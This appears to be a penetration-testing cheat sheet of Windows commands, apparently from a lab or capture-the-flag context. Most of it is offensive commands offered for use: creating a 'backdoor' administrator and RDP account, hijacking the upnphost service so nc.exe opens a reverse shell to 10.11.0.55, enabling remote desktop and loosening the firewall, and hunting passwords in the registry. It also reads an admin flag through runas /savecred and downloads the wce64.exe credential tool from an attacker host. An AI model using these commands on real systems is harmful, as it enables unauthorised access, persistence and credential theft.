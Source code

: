 
## Windows commands:

`whoami`

`systeminfo | findstr /B "OS"` 

`ipconfig /all`

`netstat -an`

`route print`

`net start`

`tasklist /V`

`net user`

`net user bob`

`net use`

`net share`

`net view`

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Check Administrators
`net localgroup Administrators`

### Get directory permission

`cacls Music`

or

`icacls Music`

`accesschk.exe -uwcqv "Authenticated Users" *`

`accesschk.exe /accepteula -uwdqs "Users" c:\`

` accesschk.exe -ucqv SSDPSRV`

This command shows which Windows services members of the Users group have write access to:

`accesschk users -cw \*`

`sc qc upnphost`

`sc config upnphost binpath= "C:\Inetpub\scripts\nc.exe 10.11.0.55 1234 -e C:\WINDOWS\System32\cmd.exe"`

`sc config upnphost obj= ".\LocalSystem" password= ""`

`sc qc upnphost`

### remove the dependency:

`$ sc config upnphost depend= ""`



windows service requires the executable to send back some feedback call within 30 seconds after a service had started. Or else, it will considered it as failed start attempt and terminate the service.

there are few workarounds on this, the easiest way is simply wrap your command in cmd.exe. i.e, cmd.exe /k <ur command>.

### RDP Enable

We can enable remote desktop from windows command line by running the following command:

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

`netsh firewall set service remoteadmin enable`
`netsh firewall set service remotedesktop enable`
`net start termservice`


reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 


### Look for password in registry

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#### SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#### Search for password in registry
`reg query HKLM /f password /t REG_SZ /si`
`reg query HKCU /f password /t REG_SZ /s`

### runas
`runas /user:DOMAIN\user cmd.exe`

`runas /savecred /user:access\administrator "cmd /c type c:\users\administrator\desktop\root.txt > c:\users\security\y.txt"`


#### check files in directories

tree /f /a

#### File Download

powershell -command "& { (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/wce64.exe', 'c:\HFS\wce64.exe')}"

